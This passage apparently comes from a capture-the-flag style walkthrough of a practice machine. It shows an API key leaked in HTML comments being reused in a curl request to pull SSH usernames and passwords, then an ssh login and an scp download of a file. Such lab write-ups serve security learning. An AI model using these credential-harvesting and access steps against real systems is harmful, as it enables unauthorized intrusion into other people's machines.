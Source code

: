 ```
</body>

<!-- my_sup3r_s3cr3t_API_KEY="5Rj7D9sQxZ2cCpGnWvAeF6hT4yXwU8zK" -->
<!-- what_the_heck_is_this_key="f9324b5b0cf24736dcdfa4ed" -->


</html>
```

we got a juicy steak<br>
<br>
Let's further explore that web page. Randomly checking if any other pages available in robots.txt and sitemap.xml, but coming up with a `api path` which is located in robots.txt file. 
Use can very well use `gobuster`, `dirsearch`, `ffuf` for finding this path, since methodology differs on people. 
<br>

```
curl http://<ip>:7888/api/users
```

its saying ```unauthorized```...Well now we can use the previously founded API key for authorization. So i ended up with adding custom header to the get request ```Authorization: 5Rj7D9sQxZ2cCpGnWvAeF6hT4yXwU8zK```

Curl command
```
curl http://<ip>:7888/api/users -H "Authorization: 5Rj7D9sQxZ2cCpGnWvAeF6hT4yXwU8zK"
```

API JSON response

```
{"ssh_user1": "cyberrav", "password1": "g0t_my_a1ms", "ssh_user2": "justin", "password2": "find_a_new_one!!"}
```
We have found SSH credentials. Let's log in.

<br>
you can very well use any interceptor like `Burp Suite` for raising this kind of modified request

Now just login into the ssh user
```
ssh cyberrav@<ip>
```
while listing out the contents in the folder, we got a png file
```
$ whoami
cyberrav
$ ls
us3r.png
$ pwd
/home/cyberrav
```

let's use `scp` for downloading this image file to our local machine
```
scp cyberrav@<ip>:/home/cyberrav/us3r.png <destination_path>
```
<br>
<div align="center"><img src="https://justinmrp.github.io/Vagrant_Boxes/assests/dick.png" style="height:50%;width:50%"></div>
<br>
